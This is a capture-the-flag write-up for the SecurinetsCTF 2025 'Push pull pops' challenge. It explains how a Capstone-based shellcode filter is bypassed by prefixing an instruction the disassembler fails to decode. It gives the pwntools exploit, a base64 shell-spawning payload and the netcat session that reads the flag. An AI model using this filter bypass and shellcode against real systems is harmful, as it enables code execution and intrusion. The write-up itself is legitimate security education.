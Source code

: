 +++
author = "vmpr0be"
title = "SecurinetsCTF 2025 Quals - Push pull pops"
date = "2025-10-05"
categories = ["ctf"]
+++

### Overview

We're given a Python script that takes base64 input and decodes it, expecting x86_64 assembly code to execute.

```python
...
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone import CS_OP_REG
...

def check(code: bytes):
    if len(code) > 0x2000:
        return False

    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    for insn in md.disasm(code, 0):
        name = insn.insn_name()
        if name!="pop" and name!="push" :
            if name=="int3" :
                continue
            return False
        if insn.operands[0].type!=CS_OP_REG:
            return False
            
        
    return True

def run(code: bytes):
    # Runs the code
    ...

def main():
    code = input("Shellcode : ")
    code = base64.b64decode(code.encode())
  
    ...

    if check(code):
        run(code)
  
    ...
```

We notice that the disassembler used in this challenge is [Capstone](https://github.com/capstone-engine/capstone).

For the script to run the given code, the following conditions must be met:
- The disassembled instruction must be `PUSH`, `POP`, or `INT3`.
- The `PUSH` and `POP` instructions must only contain a `REGx` as the first operand.

If any condition isn't met, the program will not run our code.

### Vulnerability

The vulnerability is in the check function, it keeps disassembling instructions until it hits an invalid instruction. This means if we provide an invalid instruction as the first instruction, it won't be disassembled without returning an error, thus skipping the next instructions.

### Exploitation

To exploit this vulnerability, we need to find an instruction that is valid to execute by the CPU but considered invalid for the disassembler.

Luckily there's [a still open issue](https://github.com/capstone-engine/capstone/issues/2442) about an instruction that isn't correctly disassembled wich is then deemed invalid.
After slight edit of the problematic instruction, we end up with the following instruction:
```
movsxd ecx, eax 
```

We just need to insert this instruction at the beginning of our shellcode to make the check function exit early due to that instruction being invalid.

```python
shellcode = b"\x63\xc8" # movsxd ecx, eax
shellcode += asm(shellcraft.sh()) # crafted shellcode that opens a shell
```

We then encode the shellcode in base64 and give it to the server:

```bash
> nc pwn-14caf623.p1.securinets.tn 9001

Shellcode : Y8hqaEi4L2Jpbi8vL3NQSInnaHJpAQGBNCQBAQEBMfZWagheSAHmVkiJ5jHSajtYDwU=

# We're now in a shell
> cat app/flag.txt
> Securinets{push_pop_to_hero}
```
